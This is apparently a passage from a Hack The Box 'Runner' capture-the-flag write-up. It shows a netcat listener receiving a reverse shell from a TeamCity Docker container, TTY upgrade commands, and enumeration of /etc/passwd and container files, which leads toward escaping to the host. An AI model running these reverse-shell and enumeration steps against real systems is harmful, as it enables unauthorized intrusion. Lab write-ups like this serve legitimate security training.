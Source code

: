 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/www]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.107] from (UNKNOWN) [10.10.11.13] 35528
/usr/bin/script -qc /bin/bash /dev/null
   Welcome to TeamCity Server Docker container

 * Installation directory: /opt/teamcity
 * Logs directory:         /opt/teamcity/logs
 * Data directory:         /data/teamcity_server/datadir

   TeamCity will be running under 'tcuser' user (1000/1000)

tcuser@647a82f29ca0:~/bin$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Runner/www]
└─$ stty raw -echo;fg
stty rows 50 columns 209
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
tcuser@647a82f29ca0:~/bin$ stty rows 50 columns 209
tcuser@647a82f29ca0:~/bin$ id
uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)
```

## From tcuser in docker container to john on host machine


### Enumeration

- Users

```bash
tcuser@647a82f29ca0:~/bin$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
tcuser:x:1000:1000::/opt/teamcity:/bin/sh
```

- It's a docker container

```bash
tcuser@647a82f29ca0:~/bin$ ls -la /
total 84
[...]
drwxr-xr-x   3 root   root   4096 Aug 24  2023 data
drwxr-xr-x   5 root   root    340 Apr 26 01:19 dev
-rwxr-xr-x   1 root   root      0 Feb 28 19:05 .dockerenv
[...]
-rwxr-xr-x   1 root   root    280 Aug 24  2023 welcome.sh
```

- `/data/teamcity_server/datadir` was mounted at host machine, which means the user who configured **teamcity** might left something there
